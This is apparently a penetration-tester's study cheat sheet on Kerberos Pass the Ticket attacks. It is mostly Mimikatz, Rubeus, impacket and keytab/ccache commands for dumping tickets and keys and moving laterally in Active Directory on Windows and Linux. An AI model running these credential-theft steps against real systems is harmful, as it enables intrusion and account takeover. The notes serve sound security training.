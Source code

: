 Another method for moving laterally in an Active Directory environment is called a [Pass the Ticket (PtT) attack](https://attack.mitre.org/techniques/T1550/003/). In this attack, we use a stolen Kerberos ticket to move laterally instead of an NTLM password hash.
## Kerberos Summary
Kerberos is an authentication protocol that uses a `Key Distribution Center (KDC)` to manage user and service authentication. The`KDC` is composed of two parts -- the `Authentication Server (AS)` and the `Ticket-Granting Service (TGS)`

The `AS` issues the `Ticket Granting Ticket` (`TGT`) upon initial user authentication. The `TGT` permits the client to obtain additional Kerberos tickets or Service Tickets from the `TGS`.

The `Ticket Granting Service` (`TGS`) issues Service Tickets to users who want to use a service. The user presents their `TGT` and then the `TGS` validates it, then issues the Service Tickets. These tickets allow services to verify the user's identity.

## Windows
#### Harvesting Kerberos tickets
Tickets and processed are stored by LSASS.

Export tickets
```PowerShell
# Mimikatz
.\mimikatz.exe
privilege::debug
sekurlsa::tickets /export

# Rubeus
.\Rubeus.exe dump /nowrap
```
Result is a list of files with `.kirbi` extension

#### Pass the Key / OverPass the Hash
This approach converts a domain-user hash/key into a TGT

```PowerShell
# Extract Kerberos keys
.\mimikatz.exe
privilege::debug
sekurlsa::ekeys  # dumps users Kerberos encryption keys (AES256,RC4(NTLM),SHA1,etc)

# Mimikatz Pass the Key -- will spawn a new cmd.exe window
.\mimikatz.exe
privilege::debug
sekurlsa::pth /domain:<domain> /user:<user> /ntlm:<NTLM_key> # /aes256:AES_key...
 
# Rubeus Pass the Key
.\Rubeus.exe asktgt /domain:<domain> /user:<user> /aes256:<AES_key> /nowrap # /rc4, /aes128, /aes256, /des

```

#### Pass the Ticket (PtT)
Now that we have some Kerberos tickets, we can use them to move laterally within an environment.

Usage
```PowerShell
# Rubeus -- asktgt
.\Rubeus.exe asktgt /domain:<domain> /user:<user> /rc4:<hash> /ptt

# Rubeus -- import ticket from .kirbi file
.\Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-user@krbtgt-inlanefreight.htb.kirbi

# Rubeus -- Base64 format
[Convert]::ToBase64String([IO.File]::ReadAllBytes("<ticket>.kirbi"))
.\Rubeus.exe ptt /ticket:<.kirbi base64 string>

# Mimikatz PtT
.\mimikatz.exe
privilege::debug
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
______________________________________________________________________________

# PowerShell Remoting AFTER PtT
powershell
Enter-PSSession -ComputerName DC01
```

## Linux
Windows and Linux use the same process to request a Ticket Granting Ticket (TGT) and Service Ticket (TGS) but ticket information is stored differently. 

Linux machines store Kerberos tickets as ccache files. 
Ticket is stored in env variable `KRB5CCNAME`.
Another everyday use of Kerberos in Linux is `keytab` files.

#### Identifying Linux and AD integration
```bash
realm list # look to see if machine is configured as Kerberos member

# if realm not available --
ps -ef | grep -i "winbind\|sssd"
```

#### Finding Kerberos tickets in Linux
```bash
# KeyTab files
find / -name *keytab* -ls 2>/dev/null  # find method
crontab -l                             # cronjob method

# ccache files
env | grep -i krb5  # in env variables
ls -la /tmp         # in /tmp
```

#### Abusing KeyTab files

Impersonate a User
```bash
# List KeyTab file information
klist -k -t <file.keytab>

# impersonate a user with a KeyTab
klist                                        # confirm current ticket
kinit <user>@<domain> -k -t <file.keytab>    # import KeyTab ticket
klist                                        # verify new ticket is loaded

# run commands utilizing kerberos ticket to impersonate user
smbclient //dc01/user -k -c ls  # example os using smbclient with -k
netexec -k
impacket-psexec -k
etc...
```

Extract Secrets using [KeyTabExtract](https://github.com/sosdave/KeyTabExtract)
```bash
git clone https://github.com/sosdave/KeyTabExtract.git
python3 keytabextract.py <file.keytab>
# from here, crack NTLM hash or forge tickets using AES256/AES128 hash
```

#### Abusing KeyTab ccache
```bash
# identify ccache files
env 
ls -la /tmp

# identify group membership
id <domain user>   # looking for privileged users

# import ccache file into current session
klist
cp /tmp/<ccache_file> .
export KRB5CCNAME=<ccache_file>
klist    # verify ccache is loaded in env
# use commands as required
```

Using Linux attack tools with Kerberos
```bash
# modify /etc/hosts file
# set up pivot/tunnel tools as needed
# import ccache into attack box env
proxychains impacket-psexec dc01 -k # example
```

Evil-WinRM with Kerberos
```bash
# install Kerberos package
sudo apt-get install krb5-user -y

# modify Kerberos config file
cat /etc/krb5.conf

[libdefaults]
        default_realm = <DOMAIN>

...SNIP...

[realms]
    <DOMAIN> = {
        kdc = <DC_HOSTNAME>.<DOMAIN>
    }

...SNIP...

# Using Evil-WinRM with Kerberos
evil-winrm -i <ip/hostname> -r <domain (realm)>
```

#### Linikatz
[Linikatz](https://github.com/CiscoCXSecurity/linikatz) is used to exploit creds on Linux boxes that are integrated with AD. Similar to Mimikatz

Usage
```bash
./linikatz.sh
```

## Miscellaneous

#### Convert `ccache` to `kirbi` and vice versa
```bash
# ccache -> kirbi
impacket-ticketConverter -i <ccache.file> -o <file.kirbi>
.\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi # import ticket into windows session

# kirbi -> ccache
impacket-ticketConverter -i <file.kirbi> -o <ccache.file> 
export KRB5CCNAME=<ccache_file>
```


